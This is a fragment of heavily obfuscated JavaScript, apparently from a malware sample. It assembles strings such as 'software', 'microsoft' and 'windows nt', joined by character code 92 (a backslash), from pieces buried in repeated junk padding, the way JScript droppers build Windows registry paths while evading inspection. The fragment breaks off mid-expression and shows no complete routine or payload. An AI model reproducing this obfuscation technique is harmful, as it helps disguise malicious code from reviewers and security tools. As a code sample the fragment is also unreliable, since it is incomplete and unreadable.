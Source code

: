 ```javascript
'tUhiOuBNMecoDlnXPEC"GJpWSFwRVsYtUhiOu'+
'BN'+
'MecoDlnXPECsoG'+
'JpWSFwRVsYtUhiOuBNMecoDlnXPECfGJpWSFwRVsYtUhiOuBNMecoDlnXPECtwarGJpWSFwRVsYtU'+
'hiOuBNMecoDlnXPECeGJpWSFwRVsYtUhiOuBNMecoDlnXPEC"GJpWSFwRVsYtUhiOuBNMeco'+
'DlnXPEC+GJpWSFwRVsYtUhiOuBNMecoDlnXPECTbGJpWSFwRVsYtUhiOuBNMecoDlnXPECGGJp'+
'WSFwRVs'+
'Yt'+
'UhiOuBN'+
'MecoDln'+
'XPE'+
'CEGJpWS'+
'FwRVsYtUhiOuBNMecoDlnXPECHCGJpWSFwRVsYtUhiOuBNMecoDlnXPECtGJpWSFwRVsYtUhi'+
'OuBNMecoDln'+
'XPEC'+
'KwIGJpWSFwRVsYtU'+
'hiOuBNMecoDlnXPEChYGJp'+
'WSFwRVsYtUhiOuBNMecoDlnXPECaGJpWSFwRVsYtUh'+
'iOuBNMecoDlnXPECMGJpWSFwRVsYtUhiOuBNMecoDlnXPECQGJpWSFwRVsYtUhiO'+
'uBNMecoDlnXPEC(9GJp'+
'WSF'+
'w'+
'RVsYtUhiOuBNMecoDlnXPEC2GJpW'+
'SFwRVsYtUhiOuBNMecoDlnXPEC)GJpWSFwRVsY'+
'tUhiOuBNMecoDlnXPEC+"mGJpWSFwRVsYtUhiOuBNMecoDlnXPECiGJpWSFwRVsYtUhiOuBNMecoD'+
'lnXPECcGJpWSFwRVsYtUhiOuBNMecoDlnXPECroGJpWSFwRVsY'+
'tUhiOuBNMecoDlnXPECsG'+
'JpWSFwRVsYtUhiOuBNMecoDlnXPECoft"GJpWSFwRVsYtUhiOuBNMecoDlnXPEC+GJpWSFwRVsYtUhiO'+
'uBNMecoDlnXPECTGJpWSFwRVsY'+
'tUhiOuBNMec'+
'oDlnXPECbGJpWSFwRVsYtUhiOuBNMecoDlnXPECGG'+
'JpW'+
'SFwR'+
'VsYtU'+
'hiOuBNMecoDlnXPECEHCGJpWSFwRVsYtUhiOuBNMecoDlnXPECtGJpWSFwRVsY'+
'tUhiOuBNMec'+
'oDl'+
'nXPECKGJpWSFwRVsYtUhi'+
'OuBNMecoDlnXPE'+
'C'+
'wGJpWSFwRVsYtUhiO'+
'uBNMecoDlnX'+
'PECIGJpWSFwRVsYtUhiOuBNMecoDlnXPEChY'+
'GJpWSFwRVsYtUhiOuBNMecoDlnXPECaGJpWSFwRVsYtUhiOuBNMecoDl'+
'n'+
'XPECMQGJpWSFwRVsYtUhiOuBNMec'+
'oDlnXPEC(9GJpWSFwRVsYtUhiOuBNMecoDlnXPEC2GJpWSFwRVsYtUhiOuBNM'+
'ec'+
'oDlnXPEC)+GJpWSFwRVsYtUhiOuBNMecoDlnXPEC"'+
'wGJpWSFwRVsY'+
'tUhiOuBNMecoDlnXPECiGJpWSFwRVsYtUhiOuBNMe'+
'coDlnXPECnGJpWSFwRVsYtUhiOuBNMecoDl'+
'nXP'+
'ECdoGJpWSFwRVsYtUhiOuBNM'+
'ecoDlnXPECwsG'+
'JpWSFwRVsYtUhiOuBNMecoDl'+
'nXPEC GJpW'+
'SFwRVsYtUhiOuBNMecoDlnXPECnt"GJpWSFwRVsYtUhiOuBNMecoDlnXPEC+GJpWSFwRVsYtUhiOuBNMecoDlnXPECTGJpWSFwRVsYtUhiOuBNMecoDlnXPECbGGJpWSFwRVs'+
'YtUh'+
'iOuBNMecoDlnXPECEHGJpWSFwRVsYtUhiOuBNMe'+
'coDlnXPECCtKwIGJpWSFwRVsYtUhiOuBNMe'+
'coDlnXPEChYGJpWSFwRVsYtUhiOuBNMecoDlnXPECaGJpWSFwRVsYtUhiOuBNMecoDlnXPECMGJpWSFwRVsYtUhiOu'+
```